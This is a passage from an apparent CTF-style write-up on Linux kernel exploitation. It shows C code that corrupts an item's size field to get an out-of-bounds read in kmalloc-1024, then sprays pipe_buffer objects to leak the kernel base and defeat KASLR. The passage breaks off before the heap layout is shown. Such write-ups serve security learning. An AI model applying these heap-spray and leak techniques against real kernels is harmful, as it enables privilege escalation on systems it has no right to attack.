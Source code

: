 ## Exploitation
First of all, we create an item and update its size to leak a coming structure.
```c
memset(buf, 'A', BUF_SIZE);
new_item(buf, 0x100); // A

// change A.size
memset(buf, 0, BUF_SIZE);
memset(buf, 'A', 0x100);
*(unsigned long long *)(buf + 0x100) = 0x1337; // size (will be overwritten
*(unsigned long long *)(buf + 0x108) = NULL;  // next
edit_item(0, buf, 0x400+0x30); // new size
```
I have choosen to target `kmalloc-1024` (`0x100 + 0x10c = 0x20c = 524`) because
there were no allocation on this cache which makes my exploit more reliable.

As a target structure to leak, I have choosen a `struct pipe_buffer` (thanks to
https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html#bypassing-kaslrsmep)
as it fits in `kmalloc-1024` and contains a pointer to a structure in the
`.data` segment, allowing us to leak the kernel base address.

```C
// spray with pipe_buffer
// https://github.com/google/security-research/blob/master/pocs/linux/cve-2021-22555/exploit.c
printf("[*] Spraying pipe_buffer objects...\n");
for (int i = 0; i < NUM_PIPEFDS; i++) {
    if (pipe(pipefd[i]) < 0) {
        err("pipe");
    }
    // Write something to populate pipe_buffer.
    if (write(pipefd[i][1], "pwn", 3) < 0) {
        err("pipe write");
    }
}
```

This gives us the following heap layout :
